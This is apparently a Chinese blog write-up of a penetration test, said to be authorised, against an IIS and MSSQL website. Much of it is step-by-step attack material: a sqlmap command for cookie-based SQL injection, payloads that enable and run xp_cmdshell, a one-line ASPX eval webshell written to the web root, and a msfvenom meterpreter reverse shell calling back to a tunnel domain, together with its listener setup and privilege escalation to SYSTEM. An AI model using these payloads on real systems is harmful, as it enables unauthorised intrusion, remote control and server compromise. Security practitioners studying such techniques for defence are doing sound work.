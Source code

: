 ```yaml
---
title: 一次授权渗透实战
categories: 
  - 渗透测试
abbrlink: 45983
date: 2020-10-12 21:17:17
---
```


### 前言
　　最近刚好闲来无事，打开微信接到要一个对网站进行渗透测试的消息，对方发来网站后，马不停蹄的开始。<b>(本次渗透过程均在目标授权下进行，请勿进行非法渗透行为)</b>
　　<!-- more -->
### 信息收集
　　打开网站，一股简陋破败风引面而来，随即注册一个账号，以便后面的登录
　　<img src="https://s1.ax1x.com/2020/10/12/0WsEgf.png">
　　利用wappalyzer浏览器插件，获取到的信息，对于我这个菜鸡而言，并没有看到可以有用的东西
　　<img src="https://s1.ax1x.com/2020/10/12/0WRxJJ.png">
　　得到waf为OWASP CRS
　　<img src="https://s1.ax1x.com/2020/10/13/0huNAH.png">
　　使用nmap扫描，nmap -O -v -Pn 61.157.xx.xx
　　<img src="https://s1.ax1x.com/2020/10/13/0hdVu4.png">
　　开放的端口少之又少，基本没啥可利用的。又结合web服务器是iis，再根据nmap猜测的操作系统，确定操作系统为win server 2012
　　再用nmap自带的漏洞利用脚本，nmap --script=vuln 61.157.xx.xx
　　<img src="https://s1.ax1x.com/2020/10/13/0hdGKe.png">
　　主机安全做的很好，数据库禁止外连，让我无从下手，只有换一条路
　　<img src="https://s1.ax1x.com/2020/10/13/0hwidA.jpg">
　　直接上御剑后，看到admin字符，让我心中小喜，果断打开
　　<img src="https://s1.ax1x.com/2020/10/12/0WfkXq.png">
　　尝试弱口令登陆
　　<img src="https://s1.ax1x.com/2020/10/13/0fs27Q.png">
　　神奇的一幕出现了，竟然验证码有误?
　　<img src="https://s1.ax1x.com/2020/10/13/0fy84s.png">
　　后来不管我怎么输入，都只会出现一个提示"验证码有误!"，看来对方的设计是大家来一个同归于尽，这条路只好放弃了
　　<img src="https://s1.ax1x.com/2020/10/13/0fyyCR.jpg">
　　

### 漏洞挖掘
　　登陆进去后，发现有上传头像的地方，果断试试能不能上传马
　　尝试content-type能否绕过
　　<img src="https://s1.ax1x.com/2020/10/13/0f6LWR.png">
　　看来对方是要校验后缀名，而且还是白名单的形式，看是否有iis解析漏洞，期间我搜了许多都没有找到iis8.5漏洞文章
　　<img src="https://s1.ax1x.com/2020/10/13/0fcJXV.png">
　　上传一次正常图片后，虽然给出图片路径，但文件名是根据时间戳命名的图片，并且统一后缀名为png，这种看到就换条路吧
　　<img src="https://s1.ax1x.com/2020/10/13/0fgc2n.png">
　　看到重置登陆密码，我就猜想这个框是否存在sql注入呢
　　<img src="https://s1.ax1x.com/2020/10/13/0huvgx.png">
　　<img src="https://s1.ax1x.com/2020/10/13/0hnBmF.png">
　　难道就这样放弃了吗，我停下手中的键盘想了想。无论我怎么修改密码字符，都提示密码错误，那么肯定是将cookie中(shouji)参数代入sql语句，然后在将密码参数代入，看两个参数是否同时匹配数据库。也就是说shouji参数也可能存在sql注入
　　<img src="https://s1.ax1x.com/2020/10/13/0hMmWR.png">
　　这都不拦截？形同虚设的waf
　　
　　<img src="https://s1.ax1x.com/2020/10/13/0hMBm8.th.jpg">
　　
　　直接上sqlmap，以前从来没有碰到过注入点在cookie里面的，所以sqlmap命令格式就卡了我一天。顺便总结一下如果注入点在cookie，并且网站需要登录的命令。
　　带上--cookie参数，作用是让sqlmap能登陆进网站，重点来了，必须使用--level 2 后面的数字必须是&gt;=2，它才会检测cookie是否存在注入点
　　参考命令如下

```
python sqlmap.py -u "http://xxxx/tedb/user_repwd.aspx" --level 2 --cookie="member=id=45230&shouji=123456" -p member --random-agent
```
　　添加--os-shell参数，看能否直接得到shell
　　<img src="https://s1.ax1x.com/2020/10/13/049fD1.png">
　　报错信息意思是不支持堆叠注入，这里有<b>疑惑点</b>后面讲
　　获取banner信息为Microsoft SQL Server 2008，操作系统win server 2012 or 2008，根据前面的信息 100%确定操作系统为win server 2012
　　<img src="https://s1.ax1x.com/2020/10/13/0hJoKs.png">
　　获取数据库
　　<img src="https://s1.ax1x.com/2020/10/13/0hY5FK.png">
　　获取msdb数据库中的表，出现了这一幕
　　<img src="https://s1.ax1x.com/2020/10/13/0htiOs.png">
　　<img src="https://s1.ax1x.com/2020/10/13/0htJk6.th.jpg" >
　　此时天色已晚，躺在床上的我，整理一下思路。首先能获取到数据库信息，那么肯定存在sql注入的，其次是mssql数据库，是不是还有其他办法得到webshell呢？于是打开手机疯狂百度，学习其他大佬的姿势，找到了可以用xp_cmdshell 来让对方服务器远程执行cmd命令。学到了，明天起来验证，睡觉狗命要紧!!!

### 利用xp_cmdshell拿到webshell
　　MSSQL2005及以上版本默认禁用了xp_cmdshell。而如果该扩展存储过程没被删除，就能一句话启用它(不支持多句执行的话，请单独执行每句)
```sql
--开启
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE
--关闭
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 0;RECONFIGURE
```
　　<img src="https://s1.ax1x.com/2020/10/18/0jGZo8.png">

```mssql
exec master..xp_cmdshell "whoami" --用来执行cmd命令
```

　　<img src="https://s1.ax1x.com/2020/10/18/0jJkp4.png">
　　能远程执行命令，很nice，果断开启
　　<img src="https://s1.ax1x.com/2020/10/18/0jYSvd.png">
　　因图片看不清有些标点符号，贴出完整语句

```sql
shouji=123456';EXEC sp_configure 'show advanced options',1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell',1;RECONFIGURE--
```
　　可以从图片清楚的看到出现了红色和黑色两部分，这说明黑色部分的语句并没有发送过去，只有红色的部分发送过去了，这也是burp很强大的功能。
　　将 ';' url编码成 %3b，其他发送失败的字符也同理(还记得前面写的不支持堆叠注入吗，原因就在于sqlmap中的payload没有将';'转换成%3b，所以会出现不支持堆叠注入，自己编写一个sqlmap的tamper脚本即可<a href="https://blog.csdn.net/whatday/article/details/62059263">sqlmap tamper脚本编写</a>)
　　<img src="https://s1.ax1x.com/2020/10/18/0jtNY8.png">
　　执行后，是无法得知对方是否成功开启了xp_cmdshell，所以可以用ping命令返回时间，来判断
　　发送后，大约等了10s左右，得到了响应包，说明开启成功
　　<img src="https://s1.ax1x.com/2020/10/18/0jNKA0.png">
　　先查看一下是什么权限吧
　　<img src="https://s1.ax1x.com/2020/10/18/0jUe2D.png">
　　<img src="https://s1.ax1x.com/2020/10/18/0jdk9K.png">
　　竟然无回显，查阅后得知，可以将结果写入表中，然后查看表中的内容即可

```sql
drop TABLE D99_CMD; create TABLE D99_CMD([Data][varchar](1000),ID int NOT NULL IDENTITY (1,1));insert D99_CMD exec master.dbo.xp_cmdshell 'whoami' ;
```
　　将执行的结果写进D99_CMD表
　　<img src="https://s1.ax1x.com/2020/10/18/0jw7WV.png">
　　改变id=1后面的数字即可查看表中对应的行的内容，只能一行一行的查看，这也是非常鸡肋的地方

```sql
-- 查看表中的内容
And (select Top 1 char(124)+data+char(124) From (select Top 1 [ID],[Data] From D99_CMD where id=1 Order by [ID]) T Order by [ID] desc)>0
-- 获取表有多少行
And (select char(124)%2Bcast(Count(1) as varchar(8000))%2Bchar(124) From D99 _CMD)>0
```
　　<img src="https://s1.ax1x.com/2020/10/18/0jB6KS.png">
　　<img src="https://s1.ax1x.com/2020/10/18/0jBOa9.png">
　　注意这里的system权限，是对方cmd.exe拥有的system权限，即本地cmd执行whoami，返回的内容
　　查看对方有哪些盘

```powershell
for %i in (A B C D E F G H I J K L M N O P Q R S T U V W X Y Z) do @if exist %i: echo %i:
```
　　执行命令后，查看表中的内容，如果出现"此时不应有 i。"，将payload进行url编码，重新发送后即可
　　<img src="https://s1.ax1x.com/2020/10/19/0vf1sA.png">
　　获取到对方有c,d盘
　　<img src="https://s1.ax1x.com/2020/10/19/0vIwt0.png">
　　接下来，就要获取网站的物理路径
　　<img src="https://s1.ax1x.com/2020/10/19/0vIgB9.png">

```powershell
#在c盘下查找user_repwd.aspx文件的物理路径 注意文件名后面一定要有'*'号
for /r c:\ %i in (user_repwd*.aspx) do @echo %i 
```
　　当我查看表中的内容时，无任何回显于是，在d盘下搜索，得到
　　<img src="https://s1.ax1x.com/2020/10/19/0vTUJ0.png">
　　其实在我最开始的时候，我没有先执行获取对方有哪些盘符的命令，而是先执行c盘下获取文件路径命令。当输出表结果是无任何回显时，我是非常懵逼的，我一度怀疑命令是不是执行失败，而没有第一次时间考虑到对方有多个盘符，导致我在这里浪费了几个小时。。

```powershell
#将一句话木马写入文件
echo ^<%@ Page Language="Jscript"%^>^<%eval(Request.Item["pass"],"unsafe");%^> > d:\wwwroot\sjk\tedb\shell.aspx
```
　　使用蚁剑成功连接上webshell
　　<img src="https://s1.ax1x.com/2020/10/19/0v7gBQ.png">
　　执行whoami后发现是iis apppool\xxx
　　发现拥有的权限有，可遍历文件夹包括c盘，文件读写，当前文件夹下不能上传文件
　　很幸运的是，我发现在其他文件夹下能成功上传文件，接下来提权

### 提权　　
　　这里我用花生壳来建立tcp隧道
　　打开kali，查看ip地址
　　<img src="https://s1.ax1x.com/2020/10/19/0xZZin.png">
　　点击花生壳最右下角的'+'号，创建场景，应用名称随便填，内网主机填kali的ip地址，内网端口随便填，我这里填8080，保存
　　<img src="https://s1.ax1x.com/2020/10/19/0xZ2SP.png">
　　生成反弹shell

```bash
msfvenom -a x64 --platform Windows -p windows/x64/meterpreter/reverse_tcp  LHOST=外网域名 LPORT=外网端口 -f exe -o install.exe
```
　　<img src="https://s1.ax1x.com/2020/10/19/0xniqO.png">

以我的为例，生成反弹shell参考命令如下

```bash
msfvenom -a x64 --platform Windows -p windows/x64/meterpreter/reverse_tcp  LHOST=l347x45481.qicp.vip LPORT=57945 -f exe -o install.exe
```

　　<img src="https://s1.ax1x.com/2020/10/19/0xupkQ.png">
　　生成的木马将会在当前目录下
　　<img src="https://s1.ax1x.com/2020/10/19/0xuutJ.png">
　　将kali中的install.exe拖到windows中后，成功上传
　　<img src="https://s1.ax1x.com/2020/10/19/0xusnf.png">
　　回到kali中，依次输入以下命令
```bash
msfconsole
use exploit/multi/handler  
set payload windows/x64/meterpreter/reverse_tcp  
set lhost 192.168.46.129     //内网主机ip
set lport 8080               //内网端口
run
```
　　成功开启监听
　　<img src="https://s1.ax1x.com/2020/10/19/0xKoRA.png">
　　接下来就是运行木马了，这里要注意的是，什么样的权限，无论运行什么程序它赋予的权限也是一样的。如果我直接在蚁剑中执行马子，那么此马子的权限还是iis，而前面通过xp_cmdshell得知权限为system，所以还是要用xp_cmdshell来执行马子
　　<img src="https://s1.ax1x.com/2020/10/19/0xGHfO.png">
　　session成功建立，如果不成功，有可能是防火墙，杀软在捣乱，谁叫我人品好呢。要是对方安装个杀软，我还要搞免杀，也不至于这么顺利
　　<img src="https://s1.ax1x.com/2020/10/19/0xJ9tf.png">
　　提权成功
　　<img src="https://s1.ax1x.com/2020/10/19/0xJZBn.png">
　　剩下的就是后渗透阶段了，永久后门植入，权限维持，域渗透等等。由于本人水平有限，文中难免有错误或遗漏之处，还请谅解，最后感谢你的阅读！

### 后记
　　马子上线的第二天就被对方发现了，这么明显的马名，不被发现也难，错误示范，大家别学我啊(#-.-)<img src="https://s1.ax1x.com/2020/10/19/0xtAwn.jpg">


